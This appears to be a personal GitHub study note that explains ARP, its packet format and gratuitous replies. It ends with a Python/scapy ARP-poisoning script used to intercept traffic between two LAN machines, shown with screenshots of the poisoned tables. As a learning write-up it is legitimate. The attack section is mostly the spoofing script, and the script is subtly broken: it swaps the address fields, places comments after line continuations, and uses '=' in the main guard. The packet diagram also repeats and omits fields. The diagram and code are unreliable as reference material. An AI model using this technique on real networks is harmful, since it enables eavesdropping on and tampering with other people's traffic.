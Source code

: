 # ARP

ARP is a layer 2 Protocl that bridges between the layer 2 (Ethernet) and layer 3 (IP) addressing schemes. Since there is no direct forula used for "translation" between MAC and IP addresses ARP is used to fill that gap.

To route packets through a network, both an IP address and a MAC address are needed, an IP address of the final destination of the packet and the MAC address of the next hop in the route to that final destination dictated by the IP address. When one of these factors are unknown ARp is used to solve for it.

The way it works is by sending a request to the entire network in a broadcast asking who the holder of the IP/MAC address is, so that they can provide the missing address. To further understand let's imagine a scenario:

> An endpoint doesn't know the MAC address of their default gateway to route the message to the internet. That endpoint will send an ARP request to the LAN asking for the MAC of the default gateway.

The protocol's packet format is as follows:

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Hardware Type               | Protocol Type                 |
+---------------+-------------+-------------------------------+
| Hw Addr Len   | Pr Addr Len | Opcode                        |
+-----------------------------+-------------------------------+
| Sender Hardware Address (size is written in Hw Addr Len)    |
|                             +-------------------------------|
|_____________________________|                               |
| Sender Hardware Address (size is written in Hw Addr Len)    |
+-------------------------------------------------------------+
| Target Protocol Address (size is written in Pr Addr Len)    |
|                             +-------------------------------|
|_____________________________|                               |
| Target Protocol Address (size is written in Pr Addr Len)    |
+-------------------------------------------------------------+
```

The `Hardware Type` field is for different types of Layer 2 address formats, together with the `Hardware Address Length` it is used to decide the address in the Sender & Target Hardware address. Same goes for the `Protocol Type` and `Protocol Address Length`.

An Ethernet (Hardware) & IP (Protocol) request can be summed up this way: "Who has [IP/MAC Address]? I am [My IP Address] [My MAC Address]." (In broadcast)
And a reply will be: "I am [IP/MAC Address], my MAC/IP Address is [Address]."

## Gratutious ARP Reply

A gratutious arp is an arp reply that was not prompted by any request, It is usually sent when a machine updates their IP to MAC mapping and wants other machine to update it as well, Or when a new machine joins the network. It may use a gratutious ARP reply to annouce it's existence. A gratutious arp will be sent in broadcast, their Send L2 and L3 address wil use to update the network machine's mac tables, the target L3 and L2 are irrelevant.

There is another use case for the gratutious ARP reply, and that is when **two machines** (Like routers) **use a shared IP** but own **different MAC addresses** Or when they **share both IP and MAC addresses**.

> In the first case (Two routers share an IP address), when one router fails the other router will send a gratutious ARP to let all ther other machines on the network know that the reduntant IP should be mapped to ther other router's MAC address.

> In the second case (Two routers share IP and MAC addresses), when one router fails the other will send a gratutious arp reply to let the switch know to remap the MAC and IP to the (then) inactive port, where the functioning router is connetced. The machines on the network do not update their MAC tables.

# Vulnerability

There is a problem with this system however, ARP responses may be accepted by machines without them ever sending a request. And that may lead to a malicious change in the victim's ARP table. One that let's the attacker become a middlemen! An attacker can then diguise themselves as another machine, and actch all the network directed to that machine. Once they have that network they can alter it, block it or simply just read it.

How I did it, a very simple script. If you want to palce yourself as a middle man in-between two machine's first you have to be on the first Lan. But that's a given, so next you have to make them both think that the other machine is you. And I accomplished that with this simple python script using scapy:

```
# ArpPoisoningAttack.py
# 06.02.2023
# By Daniel

# Imports
from scapy.all import *

# Constants
OPCODE          = 2                     # Reply code

ATTACKER_MAC    = "00:50:56:9a:c6:e5"   # My MAC Address, not used

VICTIM_ONE_MAC  = "00:50:56:9a:b0:60"   # Victim 1's MAC & IP addresses
VICTIM_ONE_IP   = "192.168.100.2"

VICTIM_TWO_MAC  = "00:50:56:9a:30:8a"   # Victim 2's MAC & IP sddresses
VICTIM_TWO_IP   = "192.168.100.1"


def main():
    malicious_arp1 = Ether(dst=VICTIM_TWO_MAC)/\
                     ARP(\
                        op=OPCODE,\                                 # Opcode automatically fills IP and MAC compatible settings for all other fields.
                        psrc=VICTIM_ONE_IP,\                        # When no hardware source is given, it fills the sender's MAC.
                        hwdst=VICTIM_TWO_IP, pdst=VICTIM_TWO_MAC\
                     )

    malicious_arp2 = Ether(dst=VICTIM_ONE_MAC)/\
                     ARP(\
                        op=OPCODE,\
                        psrc=VICTIM_TWO_IP,\                        # This packer will be sent to victim 1, posing as victim 2 with attacker's mac.
                        hwdst=VICTIM_ONE_MAC, pdst=VICTIM_ONE_IP\   # The above packet will be sent to victim 2, posing as victim 1,
                     )
    
    sendp(malicious_arp1)
    sendp(malicious_arp2)                                            # :) You just got poisoned


if (__name__ = "__main__"):
    main()
```

![The packets as seen in wireshark](/Pictures/ARP_Poisoning/Wireshark_View.PNG)

The above script sends a packet to each of the machines posing as the other machine. We can then see the effects on both machine's ARP Tables:

![Machine1, IP: 192.168.100.1](/Pictures/ARP_Poisoning/Victim_1_Poisoned_ARP_Table.PNG)

![Machine2, IP: 192.168.100.2](/Pictures/ARP_Poisoning/Victim_2_Poisoned_ARP_Table.PNG)
